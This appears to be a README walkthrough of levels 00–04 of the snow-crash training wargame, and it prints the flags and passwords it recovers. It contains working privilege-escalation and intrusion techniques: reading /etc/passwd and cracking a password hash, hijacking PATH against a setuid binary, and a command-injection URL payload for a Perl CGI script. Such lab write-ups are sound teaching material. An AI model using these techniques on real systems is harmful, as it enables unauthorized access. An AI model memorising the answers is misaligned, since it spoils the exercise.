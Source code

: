 # **snow-crash**
### an introduction to the wonderful world of ✨cybersecurity✨

### level00 :
ok so, first of, what do we have to work with ?

```sh
level00@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level00 level00  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-xr-x---+ 1 level00 level00  220 Apr  3  2012 .bash_logout
-r-xr-x---+ 1 level00 level00 3518 Aug 30  2015 .bashrc
-r-xr-x---+ 1 level00 level00  675 Apr  3  2012 .profile
```
so, we don't have much to work with, at least here !
Let's try to aim directly for the flag.
When running the following command : `ls -lR / 2>/dev/null | grep flag00`
we get :
```sh
----r--r-- 1 flag00  flag00      15 Mar  5  2016 john
----r--r--  1 flag00  flag00      15 Mar  5  2016 john
```
Alright, well, that was easy enough ! now let's see if we can read it.
```sh
$> whereis john
john: /usr/sbin/john
```
```sh
cat /usr/sbin/john
cdiiddwpgswtgt
```
here it is ! we have just found the flag !
We aren't done yet though, if we try this password we get an incorrect password, subsequently, let's decrypt it.
Using Dcode's cipher recognition tool with the keyword **john**, we are prompted with:
`nottoohardhere`
using the affine-cipher method.
Now that you have inputed the password and recuperated the following token with the **getflag** function let's keep going :
`x24ti5gi3x0ol2eh4esiuxias`

# level01 :
Let's repeat what we have done just before.
using **ls** we can't find anything.
Let's check */etc/passwd* just in case our user was a bit lazy...
```sh
level01@SnowCrash:~$ cat /etc/passwd
[...]
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
[...]
```
Here we go. now as you can guess this one seems encrypted as well, Dcode here we come.
Aaaaaaaaaaaaaaaaaaaaaaaaaaaaand **NOTHING**...
ok well let's look up how the keyword john might just help.
After a quick google search we find `John The Ripper` a password cracking software. niiiiiiice.
Now having taken 95 minutes to install and comprehend `John` we get :
`abcdefg`
and well, fuck you for that.
`f2av5il02puano7naaf6adaaf`

# level02 :
```sh
level02@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level02 level02  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level02 level02  220 Apr  3  2012 .bash_logout
-r-x------ 1 level02 level02 3518 Aug 30  2015 .bashrc
----r--r-- 1 flag02  level02 8302 Aug 30  2015 level02.pcap
-r-x------ 1 level02 level02  675 Apr  3  2012 .profile
```
here we go A FILE !
so what of it, what's a pcap ? Well, a pcap is an interface for capturing network traffic, basically a file that logs data sent through a network.
The most logical way to read it (to me) is through **wireshark** so let's do it.
First of, we need the file, file which is located in our VM that does not have wireshark installed and where we have no rights to install it.
let's use **SCP**
SCP allows me to copy a file securely through an ssh connection so you are going to need your level02 token.
Ok now we have the file let's see that.
![](./.img/wshk.png)
This kind of looks like incomprehensible gibberish but we don't need to understand everything that is going on.
What matters is the data, you just have to click on any packet and look if it has a subsection **Data** under **Transmission Control Protocol**.
if it does, you will be able to read what was sent to you.
After a bit of scrolling we can see that we have received a **login** and a **password** but we only want the password so let's focus on that.
after reading every bytes of data sent after the **password** prompt we get :
`f t _ w a n d r · · · N D R e l · L 0 L · ···`
There are still a few bytes of data afterwards but after a while I understood that receiving `···` meant the end of line.
So let's input the password yeah ?
Again, that doesn't work. So what's the gist ?
Well it turns out the **·** character means **backspace**, giving us the following password :
`ft_waNDReL0L`
(don't ask me why but it seems the last *backspace* does not work as one).
And right after inputing the password and launching getflag I get my token !
`kooda2puivaav1idi4f57q8iq`

# level03 :
```sh
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
A file again, and an executable.
This is where it gets tricky.
First let's execute it.
```sh
level03@SnowCrash:~$ ./level03 | cat -e
Exploit me$
```
Hmmm this isn't exactly helpful, and that means we're going to dive in the wonderous world of ***disassembly***...
What disassembling does is translating machine language into assembly language. A very useful **reverse-engineering** tool.
I'll save you the trouble of looking for hours on end how to disassemble an executable properly. So here is what I ended up doing.
First I disassemble level03 with ltrace and I get this :
```sh
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                        = 2003
geteuid()                                        = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```
Do you see it ? Our ticket to level04. Laying inches from our fingers...
`system("/usr/bin/env echo Exploit me"Exploit me`
What we see here is the fact that they are using the built-in function `echo`.
You might be wondering just why that's interesting ? Well see, what tells your computer where echo is defined is the `PATH` variable. A variable you can define **YOURSELF**.
The only thing you'll need to do is add /tmp to your **ENV** with the following line :
```sh
export PATH=/tmp:$PATH
```
Now that you have you very own folder in the PATH you'll need to make echo execute getflag.
There are quite a few ways to go at it such as making echo a symlink of getflag or copying getflag into echo, however I find the simplest answer is often the best so i'll just open my file with nano (or vim) and write **getfile** in the echo file.
Then simply give the appropriate rights to your echo file and you should be good to go.
```sh
chmod 777 /tmp/echo
```
You can now execute **./level03** and get your token :
`qi0maab88jeaj46qoumi7maus`

# level04 :
```sh
level04@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```
This time we are given a perl script. First off let's read it.
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
After a bit of digging (if like me you've never used perl) this opens a webpage on **localhost:4747** where the subroutine **x** is executed.
This one is pretty straightforward simply modify the parameter of x (which is also x for some reason) in order to print the result of the getflag function.
To do that simply access the website using the following URL :
```
http://192.168.56.102:4747/?x="$(getflag)"
```
OHHHH MAGIC :
``ne2searoevaevoem4ov4ar8ap``
Et voila, on to level05.

# level05 :